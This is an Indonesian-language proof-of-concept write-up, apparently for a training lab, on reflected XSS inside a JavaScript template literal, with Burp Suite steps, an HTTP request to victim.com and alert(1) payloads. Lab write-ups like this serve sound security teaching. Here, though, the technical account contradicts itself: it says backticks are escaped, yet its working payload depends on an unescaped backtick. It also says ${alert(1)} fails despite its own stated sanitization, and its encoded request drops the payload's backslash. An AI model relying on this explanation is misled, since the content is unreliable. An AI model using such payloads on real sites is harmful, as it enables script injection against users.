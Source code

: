 ### **Proof of Concept (PoC) Reflected XSS dalam Template Literal dengan Kurung Sudut, Tanda Petik Tunggal, Tanda Petik Ganda, Backslash, dan Backticks**

#### **Deskripsi Singkat**
Reflected Cross-Site Scripting (XSS) adalah jenis kerentanan keamanan web di mana input pengguna yang tidak divalidasi dengan baik direfleksikan kembali oleh aplikasi web dalam responsnya. Pada kasus ini, input pengguna direfleksikan di dalam template literal JavaScript yang membungkus pesan dalam tanda petik backticks (`` ` ``). Karakter kurung sudut (`<`, `>`), tanda petik tunggal (`'`), dan tanda petik ganda (`"`) di-HTML-encode, sementara backslash (`\`) dan backticks di-escape. Meskipun sanitasi ini mengurangi kemungkinan serangan XSS, kerentanan ini masih dapat dieksploitasi dengan teknik yang tepat untuk menyisipkan dan menjalankan kode JavaScript berbahaya.

#### **Langkah-langkah PoC**

1. **Mengirimkan String Acak pada Kotak Pencarian**

    - **Buka Halaman Pencarian:** Akses halaman pencarian pada aplikasi web target.
    - **Isi Kotak Pencarian:** Masukkan string acak alfanumerik ke dalam kotak pencarian, misalnya: `test123`.
    
    ![Langkah 1: Mengirimkan String Acak](images/Reflected%20XSS%20into%20a%20template%20literal%20with%20angle%20brackets,%20single,%20double%20quotes,%20backslash%20and%20backticks/1.png)

2. **Menggunakan Burp Suite untuk Menangkap dan Mengirim ke Repeater**

    - **Aktifkan Proxy Burp Suite:**
        - Buka **Burp Suite** dan aktifkan proxy.
        - Pastikan browser Anda dikonfigurasi untuk menggunakan proxy Burp Suite.
    
    - **Kirim Pencarian:**
        - Lakukan pencarian dengan string acak tadi sehingga permintaan (request) dikirim melalui Burp Suite.
    
    - **Intercept Permintaan:**
        - Di tab **Proxy > HTTP history**, temukan permintaan pencarian tersebut.
        - Klik kanan pada permintaan dan pilih **"Send to Repeater"**.
    
    ![Langkah 2: Mengirim ke Repeater](images/Reflected%20XSS%20into%20a%20template%20literal%20with%20angle%20brackets,%20single,%20double%20quotes,%20backslash%20and%20backticks/2.png)

3. **Mengamati Refleksi Input dalam Template Literal**

    - **Kirim Permintaan ke Repeater:**
        - Di tab **Repeater**, perhatikan bagaimana input `test123` direfleksikan dalam kode JavaScript:
        
          ```html
          <h1>Hasil Pencarian untuk: test123</h1>
          <script>
              const message = `Hasil pencarian untuk: test123`;
          </script>
          ```
          
        - Ini menunjukkan bahwa input pengguna dimasukkan ke dalam template literal JavaScript dengan tanda petik backticks, sementara karakter khusus lainnya di-encode atau di-escape.
    
    ![Langkah 3: Refleksi dalam Template Literal](images/Reflected%20XSS%20into%20a%20template%20literal%20with%20angle%20brackets,%20single,%20double%20quotes,%20backslash%20and%20backticks/3.png)

4. **Mengirim Payload Awal dan Mengamati Penyaringan**

    - **Coba Payload Sederhana:**
        - Kirim payload berikut pada parameter pencarian:
        
          ```
          test${alert(1)}
          ```
          
        - **Hasil:** Payload mungkin di-encode atau di-escape sehingga tidak berhasil mengeksekusi `alert(1)`.
        
          ```html
          <h1>Hasil Pencarian untuk: test${alert(1)}</h1>
          <script>
              const message = `Hasil pencarian untuk: test\${alert(1)}`;
          </script>
          ```
          
        - **Hasil:** Tanda dollar (`$`) dan curly braces (`{`, `}`) mungkin di-escape atau tidak diinterpretasikan sebagai ekspresi JavaScript, sehingga mencegah eksekusi `alert`.
    
    ![Langkah 4: Mengirim Payload Awal](images/Reflected%20XSS%20into%20a%20template%20literal%20with%20angle%20brackets,%20single,%20double%20quotes,%20backslash%20and%20backticks/4.png)

5. **Menggunakan Payload yang Berhasil Menembus Penyaringan**

    - **Susun Payload yang Tepat:**
        - Untuk memecah template literal dan menyisipkan skrip baru, gunakan payload berikut:
        
          ```
          \`;alert(1);// 
          ```
          
        - **Penjelasan Payload:**
            - `` ` ``: Menutup template literal yang sedang dibuka.
            - `;alert(1);`: Menambahkan pernyataan JavaScript untuk memanggil fungsi `alert(1)`.
            - `//`: Mengomentari sisa kode JavaScript untuk mencegah error sintaks.
    
    - **Kirimkan Payload dalam Pencarian:**
        - Masukkan payload di atas ke dalam kotak pencarian:
        
          ```
          \`;alert(1);// 
          ```
    
    - **Contoh Permintaan HTTP dengan Payload:**
        
        ```
        POST /search HTTP/2
        Host: victim.com
        Content-Type: application/x-www-form-urlencoded
        Content-Length: ...

        q=%60%3Balert(1)%3B%2F%2F
        ```
    
    - **Hasil pada Halaman Web:**
        
        Setelah payload diproses oleh aplikasi web, hasilnya akan terlihat seperti berikut:
        
        ```html
        <h1>Hasil Pencarian untuk: `;alert(1);//</h1>
        <script>
            const message = `Hasil pencarian untuk: `;alert(1);//`;
        </script>
        ```
        
        **Penjelasan:**
        - Template literal ditutup sebelum payload.
        - `alert(1);` dieksekusi sebagai pernyataan JavaScript terpisah.
        - `//` mengomentari sisa kode JavaScript untuk mencegah error sintaks.
    
    ![Langkah 5: Mengirim Payload Berhasil](images/Reflected%20XSS%20into%20a%20template%20literal%20with%20angle%20brackets,%20single,%20double%20quotes,%20backslash%20and%20backticks/5.png)

6. **Memverifikasi Eksekusi Payload**

    - **Salin URL:**
        - Di **Repeater**, klik kanan pada permintaan dengan payload dan pilih **"Copy URL"**.
    
    - **Buka Browser dan Paste URL:**
        - Buka browser (disarankan **Chrome** sesuai instruksi lab) dan tempelkan URL yang telah disalin.
    
    - **Hasil:**
        - Sebuah popup alert dengan pesan `1` muncul, menandakan bahwa serangan XSS berhasil dieksekusi.
    
    ![Langkah 6: Eksekusi Payload](images/Reflected%20XSS%20into%20a%20template%20literal%20with%20angle%20brackets,%20single,%20double%20quotes,%20backslash%20and%20backticks/6.png)

#### **Mengapa Payload Ini Berfungsi?**

Meskipun karakter khusus seperti tanda petik tunggal (`'`), tanda petik ganda (`"`), kurung sudut (`<`, `>`), backslash (`\`), dan backticks (`` ` ``) di-encode atau di-escape, payload ``\`;alert(1);// `` berhasil memecah template literal yang ada. Berikut adalah cara kerja payload:

1. **Menutup Template Literal:**
    - `` ` `` menutup template literal yang sedang dibuka dalam variabel `message`.
  
2. **Menyisipkan Fungsi JavaScript:**
    - `;alert(1);` menambahkan pernyataan JavaScript untuk memanggil fungsi `alert(1)`.

3. **Mengomentari Sisa Kode:**
    - `//` mengomentari sisa kode JavaScript untuk mencegah error sintaks dan memastikan bahwa payload dapat dieksekusi tanpa gangguan.

Sehingga, hasil akhir pada HTML setelah injeksi payload adalah sebagai berikut:

```html
<h1>Hasil Pencarian untuk: `;alert(1);//</h1>
<script>
    const message = `Hasil pencarian untuk: `;alert(1);//`;
</script>
```

Ketika halaman dimuat, `alert(1);` dieksekusi sebagai pernyataan JavaScript terpisah, menampilkan popup alert.

#### **Catatan Penting**

- **Keamanan:** Reflected XSS dapat digunakan untuk mencuri informasi sensitif, seperti cookie sesi, melakukan pengambilalihan akun, atau mengubah tampilan dan fungsi halaman web.
  
- **Etika:** Melakukan eksploitasi XSS tanpa izin adalah ilegal dan melanggar etika. PoC ini disediakan hanya untuk tujuan edukasi dan membantu dalam memahami serta mencegah kerentanan keamanan.
  
- **Browser Spesifik:** Pastikan untuk menguji payload pada browser yang ditentukan (Chrome) karena perilaku penanganan XSS dapat berbeda antar browser.

#### **Referensi:**

- [Cross-Site Scripting (XSS) di Konteks yang Berbeda](https://portswigger.net/web-security/cross-site-scripting/contexts)

---

![Gambar Ilustrasi Langkah 1](images/Reflected%20XSS%20into%20a%20template%20literal%20with%20angle%20brackets,%20single,%20double%20quotes,%20backslash%20and%20backticks/7.png)
![Gambar Ilustrasi Langkah 2](images/Reflected%20XSS%20into%20a%20template%20literal%20with%20angle%20brackets,%20single,%20double%20quotes,%20backslash%20and%20backticks/8.png)
![Gambar Ilustrasi Langkah 3](images/Reflected%20XSS%20into%20a%20template%20literal%20with%20angle%20brackets,%20single,%20double%20quotes,%20backslash%20and%20backticks/9.png)
